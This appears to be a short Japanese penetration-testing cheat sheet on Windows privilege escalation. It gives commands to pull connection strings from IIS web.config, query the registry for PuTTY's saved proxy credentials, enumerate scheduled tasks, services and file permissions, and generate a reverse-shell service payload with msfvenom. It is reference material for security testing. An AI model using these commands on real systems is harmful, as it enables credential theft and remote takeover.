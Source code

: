 IIS 構成

```text
場所は次のいずれか
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

データベース接続文字列
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

PuTTY が保存しているプロキシ資格情報

```shell
# SimonTatham は PuTTY 作者の名前のため固定
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

スケジュールタスク

```shell
# 一覧
schtasks

# 特定のタスク表示
schtasks /query /tn <task-name> /fo list /v
```

ファイルの権限確認

```shell
icacls <file-full-path>
```

## サービス

### 実行ファイル権限

```shell
# サービス構成のレジストリ
HKLM\SYSTEM\CurrentControlSet\Services\

# 一覧
wmic service get Name,DisplayName,PathName,StartMode,State

# サービス照会で実行ファイルや実行ユーザー等を調べる
sc qc <service-name>

# 実行ファイルの権限を調べる（変更可能かどうか）
icacls <exe-path>

accesschk.exe /accepteula -quvw <exe-path>

# サービスのペイロードを作成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe-service -o rev-svc.exe
```
